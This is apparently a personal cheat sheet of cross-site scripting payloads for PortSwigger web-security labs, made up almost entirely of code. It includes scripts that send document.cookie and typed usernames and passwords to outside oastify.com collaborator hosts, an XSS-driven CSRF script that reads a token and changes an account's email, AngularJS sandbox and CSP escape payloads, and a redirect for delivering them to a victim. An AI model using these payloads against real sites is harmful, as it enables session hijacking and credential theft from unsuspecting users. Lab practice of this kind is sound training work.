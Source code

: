 
##### Steal Cookie, reflected XSS
```ruby
<script>
fetch('https://qc6a4hfvht6z3o8ylr7i63bn7ed51wpl.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

##### Steal Username And Password
```ruby
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://a8jw0ge9t7jzzy1td80aegzf86ex2oqd.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


##### Exploiting XSS to perform CSRF

```ruby
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```


##### Reflected XSS with AngularJS escaped
There are a few payloads to escape the AngularJS on the port swigger cheat sheet, this worked for me:
```
?search=1&toString().constructor.prototype.charAt%3D[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```


##### Reflect XSS with AngularJS sandbox escape and CSP
Any of the exploits in the cheat sheet worked:
```
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';

encode URL in cyberchef and deliver to victim in an exploit like:

<script>
location='http://labID/idk/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';'
</script>

```
